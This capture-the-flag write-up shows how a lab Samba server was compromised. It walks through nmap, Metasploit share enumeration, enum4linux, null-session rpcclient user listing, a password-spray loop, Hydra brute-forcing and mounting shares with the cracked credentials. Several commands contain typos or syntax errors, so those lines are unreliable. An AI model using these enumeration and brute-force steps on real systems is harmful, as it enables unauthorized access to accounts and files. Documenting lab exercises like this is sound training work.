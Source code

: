 ```yaml
---
layout: post
title:  "CTFLive - Recon Samba"
postid: writeup
categories:
---
```

# Recon: Samba
## IP
Kali IP: 192.102.128.2

Target IP: 192.102.128.3

# Nmap Scan
$ nmap -sC -Sv -oN nmap.txt

Workgroup: RECONLABS

Found vulnerability within SMB

# SMB_enumshares Metasploit
smb_enumshares Metasploit 

```
msf > use auxiliary/scanner/smb/smb_enumshares
msf auxiliary(smb_enumshares) > show options
set RHOSTS 192.102.128.3
msf auxiliary(smb_enumshares) > run
```

Results:
public
john
aisha
emma
everyone (DISK)
IPC (samba.recon.alb)

# enum4linux
`$ enum4Linux -v 192.102.128.3`

Users:
administrator, guest, domain admins, root, bin, none

-U to see usernames
-G groups
-S shares

# rpcclient
`$ rpcclient -U "" -N 192.102.128.3`

Users:
john 0x3ee
elie 0x3ea
aisha 0x3ec
shawn 0x3e9
emma 0x3eb
admin 0x3ed

``
rpcclient $> enumdomusers
$> enumdomgroups
$> querygroup 0x###
$> querygroupmem 0x###
$> queryuser 0x###
getdompwinfo
getusrdompwinfo
```

```
rpcclient -U "jdoe%bbb" -c "getusername;quit" 192.102.128.3
rpccleint -U "jdoe%aaa" -c "getusername;quit" 192.102.128.3
```

```
for u in 'cat domain-users.txt'; do echo -n "[*] user: $u" && rpcclient -U $"$u%Autumn2015" -c "getusername;quit" 192.102.128.3
```

# Hydra
`$ hydra -L users.txt -P /usr/share/john/password.lst 192.102.128.3 smb`

Found Username/Password:
john password1
elie 123456
aisha monkey 
shawn jennifer
emma abc123
admin password

```
$ smbmount //192.102.128.3/ /mnt –o username=admin,workgroup=RECONLABS
$ \\samba-recon-admin
```

```
mount -t cifs -o username=admin //192.102.128.3/admin /mnt
mount -t cifs -o username=smbuser,password=smbpass //192.168.1.100/documents /mnt
```

samba-recon\admin\profile

`$ smbclient -U "admin%password" \\\\192.102.128.3\\admin`

# Flags:
a11##############5bf7
16b##############a6d0
2727##########721c92e
03ddb############b3b4
